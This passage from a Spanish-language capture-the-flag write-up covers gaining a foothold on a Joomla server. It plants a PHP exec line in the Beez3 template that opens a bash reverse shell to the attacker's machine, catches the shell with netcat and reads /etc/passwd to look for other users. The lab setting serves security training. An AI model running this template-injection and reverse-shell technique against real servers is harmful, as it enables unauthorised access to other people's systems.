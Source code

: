 ![extensions](extensions.png)

Una vez dentro de `Templates`, seleccionamos cualquier plantilla para editar. En este caso, optamos por modificar la plantilla `Beez3`.

![templates](templates.png)

A continuación, seleccionamos el archivo `/index.php` de la plantilla elegida (en este caso, Beez3) para editarlo. Vamos a introducir un el siguiente código PHP sencillo que nos permite obtener una reverse shell hacia nuestro equipo atacante.

```jsx
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.2.11.100/443 0>&1'");
```

![customise](customise.png)

Después, procedemos a poner el puerto especificado en el codigo anterior (`443`) en escucha y guardamos los cambios realizados en el archivo `index.php` seleccionando el botón `Save`. Finalmente, seleccionamos `Template Preview` para obtener una shell inversa como usuario `apache`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.2.11.100] from (UNKNOWN) [10.10.32.232] 37590
bash: no job control in this shell
bash-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
```

A continuación procedemos a realizar un **tratamiento de la TTY** para tener una shell inversa más interactiva y funcional. Para ello seguimos los siguientes pasos descritos en: [Tratamiento de la TTY](https://itzjp-sec.github.io/posts/tratamiento-tty/).

### Horizontal User Pivoting

Dado que somos el usuario `apache` y no tenemos privilegios, procedemos a inspeccionar el archivo `/etc/passwd` para identificar otros usuarios del sistema.

```bash
bash-4.2$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
polkitd:x:999:998:User for polkitd:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:998:996::/var/lib/chrony:/sbin/nologin
jjameson:x:1000:1000:Jonah Jameson:/home/jjameson:/bin/bash
apache:x:48:48:Apache:/usr/share/httpd:/sbin/nologin
mysql:x:27:27:MariaDB Server:/var/lib/mysql:/sbin/nologin
```
